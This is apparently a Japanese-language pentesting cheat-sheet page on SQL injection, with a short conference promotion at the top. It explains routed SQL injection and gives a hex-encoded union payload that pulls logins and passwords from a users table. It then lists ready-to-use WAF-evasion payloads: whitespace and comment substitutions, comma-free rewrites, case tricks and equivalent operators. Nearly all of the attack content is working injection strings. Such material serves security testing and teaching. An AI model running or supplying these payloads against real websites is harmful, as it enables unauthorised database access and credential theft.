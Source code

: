 ​​​​​​[**RootedCON**](https://www.rootedcon.com/) は **スペイン** で最も関連性の高いサイバーセキュリティイベントであり、**ヨーロッパ** で最も重要なイベントの一つです。**技術的知識の促進**を使命とし、この会議はあらゆる分野の技術とサイバーセキュリティの専門家が集まる熱い交流の場です。

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection は、注入可能なクエリが出力を生成するものではなく、注入可能なクエリの出力が出力を生成するクエリに送られる状況です。 ([From Paper](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Example:
```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
## WAF バイパス

[初期バイパスはこちら](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### スペースなしバイパス

スペースなし (%20) - ホワイトスペースの代替を使用してバイパス
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```
No Whitespace - コメントを使用してバイパス
```sql
?id=1/*comment*/and/**/1=1/**/--
```
No Whitespace - 括弧を使用してバイパス
```sql
?id=(1)and(1)=(1)--
```
### No commas bypass

No Comma - OFFSET、FROM、JOINを使用したバイパス
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```
### Generic Bypasses

キーワードを使用したブラックリスト - 大文字/小文字を使用してバイパス
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```
キーワードを無視してブラックリスト - 同等の演算子を使用してバイパス
```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
